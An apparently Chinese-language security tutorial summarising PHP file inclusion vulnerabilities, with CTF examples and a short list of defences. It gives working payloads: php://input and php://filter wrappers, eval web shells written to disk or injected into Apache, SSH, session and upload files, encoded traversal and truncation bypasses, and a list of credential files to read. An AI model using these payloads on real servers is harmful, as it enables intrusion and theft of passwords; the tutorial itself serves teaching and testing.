




文件包含总结
0x01 文件包含的概念：
把可重复使用的函数写入到单个文件中，在使用该函数时，直接调用此文件，无需再次编写函数。这一调用文件的过程被称为包含。
1.1 文件包含的原理：
文件包含漏洞产生的原因是在通过PHP函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。
1.2 文件包含分类：
文件包含分为本地文件包含和远程文件包含，而区分二者最简单的办法就是通过查看php.ini中是否开启了allow_ url_ include. 如果开启就有可能包含远程文件。远程文件包含需要php.ini中allow_ ur_ include=on, allow_ ur_ fopen = On。在php.ini中，allow_ url_ fopen默认一直是On,而allow_ url_ include从php5.2之后就默认为Off。
1
2
| 本地文件包含：包含服务器上的资源 //能够打开并包含本地文件的漏洞，我们称为本地文件包含漏洞（LFI）。
远程文件包含：通过HTTP协议包含其他地方的资源
|
1.3 文件包含函数：
1, include():找不到被包含文件时会产生警告(E_ WARNING) ;
2，include_ once(): 与include () 类似，代码已经被包含则不会再次包含
3，require():找不到被包含的文件时会产生致命错误(E_ COMPILE ERROR)
4，require_ once():与require ()类似，代码已经被包含则不会再次包含
思维导图：

0x02 PHP伪协议：
PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。
php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。
1
2
3
| poc：
?file=php://input
[POST DATA] <?php phpinfo();?>
|

注：利用php://input还可以写入php木马,即在post中传入如下代码：
1
| <?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
|
例子：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
|
<?php
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
echo "success\n";
echo $flag;
}
<?php
$flag = 'flag{flag_is_here}';
?>
|
审计test.php知，当参数$a不为空，且读取的文件中包含’I want flag’时，即可显示$flag。所以可以使用php://input得到原始的post数据,访问请求的原始数据的只读流,将post请求中的数据作为PHP代码执行来进行绕过。
注：遇到file_get_contents()要想到用php://input绕过。
2.2 php://filter
php://filter可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致任意文件读取。
| 前缀名称 |
后加内容 |
描述 |
| resource= |
要过滤的数据流 |
指定要过滤的数据流 |
| read= |
读链的筛选器列表 |
参数可选，可设定一个或者多个筛选器名称，以管道符（|）分隔 |
| write= |
写链的筛选器列表 |
参数可选，可设定一个或者多个筛选器名称，以管道符（|）分隔 |
| 空 |
两个链的筛选器列表 |
没有用read=或者write=做前缀的筛选器列表会是轻快应用于读或者写 |
1
2
3
4
| poc1:
?file=php://filter/resource=xxx.php
poc2:
?file=php://filter/read=convert.base64-encode/resource=xxx.php
|
1
2
3
4
5
6
7
8
9
10
11
12
13
| 为了读取包含有敏感信息的PHP等源文件，我们就要先将“可能引发冲突的PHP代码”编码一遍，这里
就会用到php://filter。
php://filter读取文件源代码的时候
需要用到编码器
php://filter/resource=phpinfo.php
php://filter/read=convert.base64-encode/resource=phpinfo.php
php://filter 一般读取文件源代码，然后再进行审计
php://filter是PHP语言中特有的协议流，作用是作为一个“中间流”来处理其他流。
可以直接用不带任何过滤器的filter伪协议
payload:file=php://filter/resource=flag.php
也可以用一些没有过滤掉的编码方式和转换方式
payload:file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
payload:file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php
|
1
2
3
4
5
6
7
8
| 怎么写入一句话木马?
$filename = $_GET['file'];
$content = $_GET['content'];
file_put_contents($filename,"<?php exit();".$content);
exit() 退出程序
这样即使插入了一句话木马，在被使用的时候也无法被执行。这样的死亡exit通常存在于缓存、配
置文件等等不允许用户直接访问的文件当中。
|
exit死亡绕过参考：https://xz.aliyun.com/t/8163
POC1直接读取xxx.php文件，但大多数时候很多信息无法直接显示在浏览器页面上，所以需要采取POC2中方法将文件内容进行base64编码后显示在浏览器上，再自行解码。
注：更多php://filter用法可参考：谈一谈php://filter的妙用
eg1:
1
2
3
4
5
6
7
8
9
10
11
12
13
| <meta charset="utf8">
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
exit('hacker!');
}
if($file){
include($file);
}else{
echo '<a href="?file=flag.php">tips</a>';
}
?>
|

尝试payload：?file=php://filter/resource=flag.php，发现无法显示内容：
尝试payload：?file=php://filter/read=convert.base64-encode/resource=flag.php，得到一串base64字符，解码得flag在flag.php源码中的注释里：
2.3 zip://
zip:// 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。
zip://中只能传入绝对路径。(php版本大于等于php5.3.0)
要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
只需要是zip的压缩包即可，后缀名可以任意更改。
相同的类型的还有zlib://和bzip2://
file=compress.zlib://flag.php
1
2
3
| poc:
zip://[压缩包绝对路径]#[压缩包内文件]
?file=zip://D:\zip.jpg%23phpinfo.txt
|
例子：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
|
<meta charset="utf8">
<?php
error_reporting(0);
$file = $_GET["file"];
if (!$file) echo '<a href="?file=upload">upload?</a>';
if(stristr($file,"input")||stristr($file, "filter")||stristr($file,"data")){
echo "hick?";
exit();
}else{
include($file.".php");
}
?>
<!-- flag在当前目录的某个文件中 -->
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
|
<meta charset="utf-8">
<form action="upload.php" method="post" enctype="multipart/form-data" >
<input type="file" name="fupload" />
<input type="submit" value="upload!" />
</form>
you can upload jpg,png,zip....<br />
<?php
if( isset( $_FILES['fupload'] ) ) {
$uploaded_name = $_FILES[ 'fupload' ][ 'name' ];
$uploaded_ext = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_size = $_FILES[ 'fupload' ][ 'size' ];
$uploaded_tmp = $_FILES[ 'fupload' ][ 'tmp_name' ];
$target_path = "uploads\\".md5(uniqid(rand())).".".$uploaded_ext;
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" || strtolower( $uploaded_ext ) == "zip" ) &&
( $uploaded_size < 100000 ) ) {
if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
echo '<pre>upload error</pre>';
}
else {
echo "<pre>".dirname(__FILE__)."\\{$target_path} succesfully uploaded!</pre>";
}
}
else {
echo '<pre>you can upload jpg,png,zip....</pre>';
}
}
?>
|
2.4 data://与phar://
data:// 同样类似与php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。从而导致任意代码执行。(这是一个输入流执行的协议，它可以向服务器输入数据，而服务器也会执行。)
利用条件:
- php版本大于等于php5.2
- allow_url_fopen = On
- allow_url_include = On
1
2
3
4
5
6
7
| poc:若纯文字没用可用[base64编码]
data://[<MIME-type>][;charset=<encoding>][;base64],<data>
?file=data://,<?php phpinfo();?>
?file=data://text/plain,<?php phpinfo();?>
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
|
phar:// 有点类似zip://同样可以导致 任意代码执行。
1
2
3
| phar://中相对路径和绝对路径都可以使用
利用条件：
php版本大于等于php5.3.0
|
1
2
3
4
5
6
7
| poc:
假设有个文件phpinfo.txt，其内容为<?php phpinfo(); ?>，打包成zip压缩包，如下：
指定绝对路径
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
或者使用相对路径（这里test.zip就在当前目录下）
index.php?file=phar://test.zip/phpinfo.txt
|
2.5 expect://伪协议
expect://伪协议用来执行系统命令，但是需要安装拓展
用法: ?file=expect://ls
0x03 特殊文件包含
服务器的中间件，ssh服务都有日志记录的功能。如果开启了日志记录功能，用户访问的日志就会存储到不同服务的相关文件。
如果日志文件的位置是默认位置或者是可以通过其他方法获取，就可以通过访问日志将恶意代码写入到日志文件中去，然后通过文件包含漏洞包含日志中的恶意代码，获得权限。
典型的日志文件包含：
中间件日志文件包含
利用条件：
- web中间件日志文件的存储位置已知，并且具有可读权限
下面开始介绍日志文件包含漏洞利用步骤
1. 将恶意代码写入到日志文件
中间件开启了访问日志记录功能，会访问日志写入到日志文件中。
假设访问URL：http://192.168.1.2/xxx/index.php
发现会在日志文件中有如下内容：
1
2
| [root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:31:20 +0800] "GET /xxx/index.php HTTP/1.1" 200 86....
|
中间件日志访问会记录访问者的IP地址、访问时间、访问路径、返回状态码等等。
利用中间件访问记录路径到日志文件中的功能，将恶意代码写入到日志文件当中去：
添加恶意代码：http://www.abc.com/xxx/<?php @eval($_POST[123]);?>
此时会提示404，但是不急
查看日志文件，发现已经将内容写入
1
2
| [root@aaa]
192.168.1.200 - - [09/Aug/2021:19:35:23 +0800] "GET /xxx/%3C?php @eval($_POST[123]);?%3E HTTP/1.1" 404 826....
|
虽然已经写入到日志文件中去了，但是浏览器进行了URL编码，导致传入的代码不能正常使用
可以通过burpsuite抓包的方式写入恶意代码，这样不会被浏览器进行URL编码
查看日志文件，内容如下
1
2
| [root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:37:33 +0800] "GET /xxx/<?php @eval($_POST[123]);?> HTTP/1.1" 404 302....
|
恶意代码成功写入
2. 文件包含日志文件
要执行文件包含，必须要知道日志文件的位置。
常见的中间件日志文件都有默认的存储路径，比如Apache的中间件日志文件存在/var/log/httpd/目录下，文件名叫access_log
输入测试语句http://www.abc.com/xxx/file.php?file=../../../var/log/httpd/access_log
之后在向网页传入POST参数：123=phpinfo
即可显示出phpinfo的内容
3.1 包含Apache日志文件
WEB服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把PHP代码插入到日志文件中，通过文件包含漏洞来执行日志中的PHP代码。
1
2
3
4
5
6
7
8
| 利用条件：
对日志文件可读
知道日志文件的存储目录
注意：
一般情况下日至存储目录会被修改，需要读取服务器配置文件(httpd.conf,nginx.conf....)或者根据phpinfo()中的信息来得知
日志记录的信息都可以被调整，比如记录报错的等级，或者内容格式
|
Apache运行后一般默认会生成两个日志文件，Windos下是access.log（访问日志）和error.log(错误日志)，Linux下是access_log和error_log，访问日志文件记录了客户端的每次请求和服务器响应的相关信息。
如果访问一个不存在的资源时，如http://www.xxxx.com/,则会记录在日志中，但是代码中的敏感字符会被浏览器转码，我们可以通过burpsuit绕过编码，就可以把 写入apache的日志文件，然后可以通过包含日志文件来执行此代码，但前提是你得知道apache日志文件的存储路径，所以为了安全起见，安装apache时尽量不要使用默认路径。
参考文章：1.包含日志文件getshell
2.一道包含日志文件的CTF题
这里提供一道包含日志的CTF题目：SHACTF-2017- Bon Appétit (100)-writeup
3.2 包含SSH log日志文件
利用条件：需要知道ssh-log的位置，且可读。默认情况下为 /var/log/auth.log
下面介绍漏洞利用步骤
1. 将恶意代码写入文件
SSH如果开启了日志记录的功能，那么会将ssh的连接日志记录到ssh日志文件当中
将连接的用户名设置成恶意代码，用命令连接受害者的服务器ip(192.168.1.1)的ssh服务
ssh "<?php @eval($_POST[123]);?>"@192.168.1.1
查看日志文件/var/log/auth.log，可以观察到恶意代码已经写入到日志文件
2. 使用文件包含日志文件
测试输入语句：http://192.168.1.1/xxx/file.php?file=../../../var/log/auth.log
之后再向网页传入POST参数：123=phpinfo
就可以出现phpinfo的内容了
参考：[RCE with LFI and SSH Log Poisoning]
3.3 包含environ
利用条件：
- php以cgi方式运行，这样environ才会保持UA头。
- environ文件存储位置已知，且environ文件可读。
姿势：
proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。
可以参考这个：
- The proc/self/environ Injection
- shell via LFI - proc/self/environ method
3.4 包含fd
与前面的方法类似/proc/self/environ，可以将代码引入 proc 日志文件中，这些代码可以通过易受攻击的 LFI 脚本执行。通常，您会使用 burp 或 curl 将 PHP 代码注入到referer.
这种方法有点棘手，因为包含 Apache 错误日志信息的 proc 文件在/proc/self/fd/等下发生了变化/proc/self/fd/2。我建议使用 Burp Intruder + FuzzDB 的LFI-FD/proc/self/fd/10暴力破解 /proc/self/fd/ 目录的目录结构-Check.txt可能的 proc 文件列表，然后您可以监控返回的页面大小并进行调查。
参考： LFI Cheat Sheet：/proc/self/environ LFI Method
3.5 包含SESSION
可以先根据尝试包含到SESSION文件，在根据文件内容寻找可控变量，在构造payload插入到文件中，最后包含即可。
1
2
3
4
5
6
7
8
9
10
| 利用条件：
找到Session内的可控变量
Session文件可读写，并且知道存储路径
一般通过以下两种方式获取session的存储位置：
通过phpinfo的信息获取session的存储位置。
通过phpinfo的信息获取session.save_path
通过猜测默认的session存储位置进行尝试
通常Linux中的Session的默认存储位置在/var/lib/php/session目录下
|
php的session文件的保存路径可以在phpinfo的session.save_path看到。

1
2
3
4
5
6
7
| session常见存储路径：
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
session文件格式： sess_[phpsessid] ，而 phpsessid 在发送的请求的 cookie 字段中可以看到。
|
参考文章：一道SESSION包含的CTF题
示例分析：
session文件包含代码如下
1
2
3
| session_start();
$ctfs=$_GET['ctfs'];
$_SESSION['username']=$ctfs
|
此代码可以通过GET型的ctfs参数传入。PHP代码将会获取的值存入到Session中。
攻击者可以利用ctfs参数将恶意代码写入到session文件中，然后在利用文件包含漏洞包含此session文件，向系统中传递恶意代码。
漏洞分析
上面的代码满足Session文件包含的两个要求
- PHP代码将会获取ctfs变量的值存入到session中
- Session的默认 存储位置是/var/lib/php/session
访问URL：http://www.abc.com/xxx/session.php?ctfs=a 会在/var/lib/php/session目录下降ctfs传入的值存储到session中
Session的文件名以sess_开头，后跟Sessionid，Sessionid可以通过开发者模式获取：
单击右键——检查——存储——Cookie——PHPSESSID 就可以找到内容
假设通过开发者模式获取到的sessionid的值为hufh7hsdf392eurh4,所以session的文件名为sess_hufh7hsdf392eurh4
在/var/lib/php/session目录下查看此文件，内容为：username|s:4:“a”
漏洞利用
通过上面的分析，可以得知，向ctfs参数传入的内容会存储到session文件中。
如果存在本地文件包含漏洞，就可以通过ctfs写入恶意代码到Session文件当中去，然后通过文件包含漏洞执行getshell
例如：访问代码http://www.abc.com/xxx/session.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下降ctfs的值写入session文件
session文件的内容为：username|s:18:"<?php phpinfo();?>".
攻击步骤
- 将恶意代码写入session文件
- 攻击者可以通过PHPinfo或者猜测到session存放的位置
- 通过开发者模式可以获得文件名称
- 通过本地文件包含漏洞可以解析session文件达到攻击的目的
比如：http://www.abc.com/xxx/file.php?file=../../var/lib/php/session/sess_7sdfysdfywy9323cew2
3.6 包含临时文件

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。
由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。
另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。这个方法可以参考[LFI With PHPInfo Assistance](https://www.insomniasec.com/downloads/publications/LFI With PHPInfo Assistance.pdf)
类似利用临时文件的存在，竞争时间去包含的，可以看看这道CTF题：XMAN夏令营-2017-babyweb-writeup
3.7 包含上传文件
很多网站通常会提供文件上传功能，比如：上传头像、文档等，这时就可以采取上传一句话图片木马的方式进行包含。
图片马的制作方式如下，在cmd控制台下输入：
1
2
3
4
5
| 进入1.jph和2.php的文件目录后，执行：
copy 1.jpg/b+2.php 3.jpg
将图片1.jpg和包含php代码的2.php文件合并生成图片马3.jpg
|
假设已经上传一句话图片木马到服务器，路径为/upload/201811.jpg
图片代码如下：
1
| <?fputs(fopen("shell.php","w"),"<?php eval($_POST['pass']);?>")?>
|
然后访问URL：http://www.xxxx.com/index.php?page=./upload/201811.jpg，包含这张图片，将会在index.php所在的目录下生成shell.php
3.8 其他包含姿势
0x04 绕过方法
4.1 指定前缀绕过
4.1.1 目录遍历
使用 …/…/ 来返回上一目录，被称为目录遍历(Path Traversal)。例如 ?file=…/…/phpinfo/phpinfo.php
测试代码如下：
1
2
3
4
5
6
7
8
| <?php
error_reporting(0);
$file = $_GET["file"];
include "/var/www/html/".$file;
highlight_file(__FILE__);
?>
|
现在在/var/log目录下有文件flag.txt，则利用…/可以进行目录遍历，比如我们尝试访问：
1
| include.php?file=../../log/flag.txt
|
则服务器端实际拼接出来的路径为：/var/www/html/…/…/log/test.txt，即 /var/log/flag.txt，从而包含成功。
4.1.2 编码绕过
服务器端常常会对于…/等做一些过滤，可以用一些编码来进行绕过。
1.利用url编码
1
2
3
4
5
6
7
8
9
10
11
| ../
%2e%2e%2f
..%2f
%2e%2e/
..\
%2e%2e%5c
..%5c
%2e%2e\
|
2.二次编码
1
2
3
4
5
6
| ../
%252e%252e%252f
..\
%252e%252e%255c
|
3.容器/服务器的编码方式
1
2
3
4
5
6
7
8
9
10
11
12
13
| ../
..%c0%af
注：Why does Directory traversal attack %C0%AF work?
%c0%ae%c0%ae/
注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
Apache Tomcat Directory Traversal
..\
..%c1%9c
|
注：那里的超链接是：Why does Directory traversal attack %C0%AF work?
4.2 指定后缀绕过
后缀绕过测试代码如下，下述各后缀绕过方法均使用此代码：
1
2
3
4
5
6
7
8
| <?php
error_reporting(0);
$file = $_GET["file"];
include $file.".txt";
highlight_file(__FILE__);
?>
|
4.2.1 利用url
在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。
可参考此文章：URI’s fragment
完整url格式：
1
| protocol :// hostname[:port] / path / [;parameters][?query]#fragment
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| query(?)
[访问参数] ?file=http://localhost:8081/phpinfo.php?
[拼接后] ?file=http://localhost:8081/phpinfo.php?.txt
上述可能是?截断：
?号截断，在路径后面输入?号，服务器会认为?号后面的内容为GET方法传递的参数而被丢弃，成功读取getshell如下：
空格绕过
这里也是一样需要使用编码%20进行绕过，不能直接输入空格。
?file=http://localhost:8081/phpinfo.php%20.txt
#号绕过：
?file=http://localhost:8081/phpinfo.php%23.txt
注：这里需要对#进行url编码，#的url编码为%23
|
Example：（设在根目录下有flag2.txt文件）

1
2
3
4
| fragment(#)
[访问参数] ?file=http://localhost:8081/phpinfo.php%23
[拼接后] ?file=http://localhost:8081/phpinfo.php#.txt
|
Example：（设在根目录下有flag2.txt文件）

其他绕过方式：
一些常见的特殊字符URL编码：

这里可以用burp爆破一遍，看哪个能用
4.2.2 利用协议
利用zip://和phar://，由于整个压缩包都是我们的可控参数，那么只需要知道他们的后缀，便可以自己构建。
1
2
3
4
5
6
7
8
9
| zip://
[访问参数] ?file=zip://D:\zip.jpg%23phpinfo
[拼接后] ?file=zip://D:\zip.jpg#phpinfo.txt
phar://
[访问参数] ?file=phar://zip.zip/phpinfo
[拼接后] ?file=phar://zip.zip/phpinfo.txt
|
Example：
(我的环境根目录中有php.zip压缩包，内含phpinfo.txt，其中包含代码)）
所以分别构造payload为：*
1
2
3
| ?file=zip://D:\PHPWAMP_IN3\wwwroot\php.zip%23phpinfo
?file=phar://../../php.zip/phpinfo
|
对应的结果分别为：


4.2.3 长度截断
1
2
3
4
5
6
7
8
9
10
11
12
| 利用条件：
php版本<php 5.2.8
原理：
Windows下目录最大长度为256字节，超出的部分会被丢弃
Linux下目录最大长度为4096字节，超出的部分会被丢弃。
利用方法：
只需要不断的重复 ./(Windows系统下也可以直接用 . 截断)
|
1
2
| ?file=shell.php./././。。省略。。
//指定的后缀的被丢弃，成功包含木马文件
|
则指定的后缀.txt会在达到最大值后会被直接丢弃掉
4.2.4 %00截断
1
2
3
4
| HP魔术引导介绍
当sql句中含有单引号，双引号，反斜杠和NUL时，这时候如果不对这些符号进行转义，写入数据库时就会出错，而魔术引号magic_quotes_gpc()就是对这些符号进行转义以便能把数据正确写入数据库。不过该参数在php.ini文件中修改。
PHP魔术引号特性已自 PHP5.3.0起废弃并将自PHP5.4.0起移除。也就是说在本实验环境的PHP版本中仍是存在的
|
1
2
3
4
5
6
7
8
9
10
11
12
| 在低版本中php读取文件名时认为%00是终止符，对于%00后面的内容就会失效
利用条件：
magic_quotes_gpc = Off
php版本 < php 5.3.4
利用方法：
直接在文件名的最后加上%00来截断指定的后缀名
?file=shell.php%00
//现阶段%00截断不常用
|
4.2.5 点号截断
1
2
3
4
5
6
7
| 原理：
windows系统 点号 长于 256，超出的部分会被丢弃；
linux系统 点号 长于 4096，超出的部分会被丢弃；
示例：
http://192.168.100.150/test_include/index.php?page=1.png.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
burp抓包修改即可
|
4.2.6 双写绕过
当写入文件时，发现删除某些特殊字符，我们可以判断是删除了其中字符，例如”php"，“…/”，只需
再增加一个使其删除后得到我们需要的，需要注意绝对路径与相对路径。
4.2.7 大小写混合绕过
如果在文件包含时，服务器对我们传入的参数没有进行严格过滤，比如没没有对大小写进行过滤，我们可以使用大小写混合进行绕过。
0x05 漏洞防护
1、使用str_replace等方法过滤掉危险字符
2、配置open_basedir，防止目录遍历（open_basedir 将php所能打开的文件限制在指定的目录树中）
3、php版本升级，防止%00截断
4、对上传的文件进行重命名，防止被读取
5、对于动态包含的文件可以设置一个白名单，不读取非白名单的文件。
6、做好管理员权限划分，做好文件的权限管理，allow_url_include和allow_url_fopen最小权限化
1
| ./表示当前位置路径，../表示上一级路径位置，在linux中同样适用。
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
| 3）一些常见的敏感信息路径：
Windows系统：
c:\boot.ini // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
c:\windows\php.ini // php 配置信息
Linux/Unix系统：
/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
/usr/local/app/php5/lib/php.ini // PHP相关配置
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/my.conf // mysql 配置文件
|